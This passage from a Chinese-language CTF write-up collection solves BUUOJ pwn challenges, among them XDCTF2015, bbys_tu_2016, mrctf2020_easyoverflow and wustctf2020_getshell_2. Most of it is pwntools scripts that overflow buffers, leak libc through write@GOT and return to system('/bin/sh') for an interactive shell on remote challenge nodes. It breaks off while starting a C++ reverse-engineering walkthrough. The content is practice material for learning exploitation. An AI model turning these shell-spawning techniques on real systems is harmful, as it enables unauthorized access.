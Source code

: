 ```python
io = remote('node4.buuoj.cn', 25724)
elf = ELF('./pwn')
payload = cyclic(0x6C + 4)
payload += p32(elf.plt['write'])
payload += p32(elf.symbols['vuln'])
payload += p32(1)
payload += p32(elf.got['write'])
payload += p32(4)
io.sendlineafter(b'Welcome to XDCTF2015~!\n', payload)
write = u32(io.recv(4))
print(hex(write))
libc = LibcSearcher('write', write)
base = write - libc.dump('write')
sys = libc.dump('system') + base
binsh = libc.dump('str_bin_sh') + base
payload = cyclic(0x6C + 4)
payload += p32(sys)
payload += p32(0)
payload += p32(binsh)
io.sendline(payload)
io.interactive()
```
# buu050-bbys_tu_2016
```python
from pwn import *
context.log_level='debug'
# io = process('./pwn')
io = remote('node4.buuoj.cn', 27499)
io.sendline(cyclic(0xC + 12) + p32(0x804856D))
io.interactive()
```
# buu051-mrctf2020_easyoverflow
连上之后输48个无效字节+'n0t_r3@11y_f1@g'
# buu052-wustctf2020_getshell_2
这道题只能溢出到返回地址+4字节的地方，直接修改返回地址到system函数的话参数写不进去，所以利用shell函数返回到指令'call _system'的地方，在后面就可以写函数参数'sh'（截取/bbbbbbbbin\_what\_the\_f?ck\_\_--??/sh的最后两个字节）了。
```python
from pwn import *
context.log_level='debug'
# io = process('./pwn')
io = remote('node4.buuoj.cn', 29467)
elf = ELF('./pwn')
io.sendline(cyclic(24+4) + p32(0x8048529) + p32(0x8048670))
io.interactive()
```
# buu053-[ZJCTF 2019]Login
第一道C++ pwn题。这也是我第一次认真在做一道C++ pwn的题目。
当然首先，我们需要会逆向C++程序。C++是C的超集，有很多C中没有的东西。其中最为重要的就是类与对象的识别了。
在这一题中，程序的符号表貌似没有被删除，我们可以看到IDA为我们分析出来的各种函数名与类名称。
![](1.png)
其中容易发现程序中定义了两个类：User和Admin，而且似乎有三个main中定义的lambda函数。
